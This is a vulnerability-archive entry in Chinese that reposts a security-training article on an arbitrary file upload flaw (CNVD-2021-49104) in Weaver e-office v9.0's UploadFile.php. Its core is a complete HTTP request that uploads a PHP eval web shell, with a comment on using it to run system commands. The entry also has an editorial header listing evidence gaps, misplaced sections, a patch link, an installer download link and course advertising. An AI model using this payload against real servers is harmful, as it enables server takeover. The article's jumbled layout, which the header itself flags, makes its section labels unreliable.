



# 泛微e-office UploadFile.php任意文件上传

## 条目说明

- 对象与具体问题：泛微e-office；UploadFile.php任意文件上传
- 版本、配置及部署条件：标题v9.0；具体补丁范围未给
- 认证与权限前提：样本含PHPSESSID，认证必要性未说明
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 影响范围段落误放整个HTTP请求，真正版本信息只在标题
- multipart字段名/文件名缺失；POC标题下面却是修复补丁下载URL，内容分区错位
- 明确CNVD-2021-49104，不能改成CVE；应同UploadFile专项合并
- 无落地路径或响应文本，广告和安装包网盘依赖多

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/phNPLBJMZ62t8yYcNiCesA)

********文章来源｜MS08067 Web 安全知识星球********  

本文作者：**Taoing**（Web 漏洞挖掘班讲师）

参考：

```
https://cnvd.org.cn/flaw/show/CNVD-2021-49104
https://mp.weixin.qq.com/s/P75K_0869h-nWHRMu06zgQ
https://mp.weixin.qq.com/s/J4R-PRJq_oi58iWKh_1Oiw
```

**泛微 oa 跟 eoffice 区别：  
**

**常见 oa 是 ecology，eoffice 是轻量版**  


#### 一、漏洞概述

泛微 e-office 是泛微旗下的一款标准协同移动办公平台。

泛微 e-office 未能正确处理上传模块中用户输入导致的，攻击者可以构造恶意的上传数据包，实现任意代码执行，攻击者可利用该漏洞获取服务器控制权。

#### 二、影响范围

```http
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId= HTTP/1.1
Host: 127.0.0.1:8082
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6
Cookie: LOGIN_LANG=cn; PHPSESSID=0acfd0a2a7858aa1b4110eca1404d348
Content-Length: 333
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; 
Content-Type: image/jpeg

<?php
$a=$_POST['H'];
eval("$a");//eval会将输入的$a作为php语句执行，因此只要对_赋一定的system命令值，就能够执行系统命令
?>

--e64bdf16c554bbc109cecef6451c26a4--
```

> 请求长度说明：原资料 Content-Length 为 333；保留原始标头；其数值未据实际请求体重新计算或验证。

#### 三、漏洞复现

安装包：  

链接: https://pan.baidu.com/s/1i4DQ4YD 密码: fegm







##### POC：

```
http://v10.e-office.cn/eoffice9update/safepack.zip
```

#### 四、修复方案

```
厂商已提供漏洞修补方案，建议用户下载使用：
```

```
http://v10.e-office.cn/eoffice9update/safepack.zip
```

**课程咨询请联系小客服**  


**扫描下方二维码加入星球学习**  

**加入后邀请你进入内部微信群，内部微信群永久有效！**

 


   

**来和 5000 + 位同学一起加入星球学习吧！**  


---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
